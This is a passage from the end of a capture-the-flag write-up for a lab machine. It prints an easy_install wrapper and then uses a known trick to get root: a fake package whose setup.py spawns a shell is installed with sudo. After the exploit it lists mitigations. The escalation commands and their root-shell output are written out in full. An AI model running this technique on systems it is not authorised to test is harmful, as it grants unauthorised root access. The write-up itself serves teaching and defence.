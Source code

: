 ```bash
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

I searched for exploits in [easy_install](https://packaging.python.org/en/latest/key_projects/#easy-install) and found one on [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/) that created a fake local package with code executed on installation.

```bash
developer@updown:~$ TF=$(mktemp -d)

developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py

developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.YeeqjgELbW
Writing /tmp/tmp.YeeqjgELbW/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.YeeqjgELbW/egg-dist-tmp-7F9vet

# whoami
root

# cat /root/root.txt
REDACTED
```

## Mitigations

I found the initial foothold on that box very hard. There were some security measures in place to make it harder to pwn. But it still had some issues that could be easily fixed. 

The `.git` folder should never be deployed with a site. Having access to the source code helped me find things I could exploit.

The file upload functionality had a few issues. 
* The upload folder should not allow directory listing
* Uploaded files should be renamed
* The upload folder should have been outside the webroot
* The list of extensions should have been an allowed list instead of a denied list

The disabled functions were great. This is what gave me a really hard time on that box. But it took only one missing function to allow access to the box. It shows that file upload is a very dangerous feature.

The issue with the Python script can be fixed by using `raw_input` instead of `input`. And the executable should probably not have the `suid` bit set.

As for `easy_install`, it is deprecated. So it should probably not be used. And it should not be run as root. Developers should install their dependencies as themselves.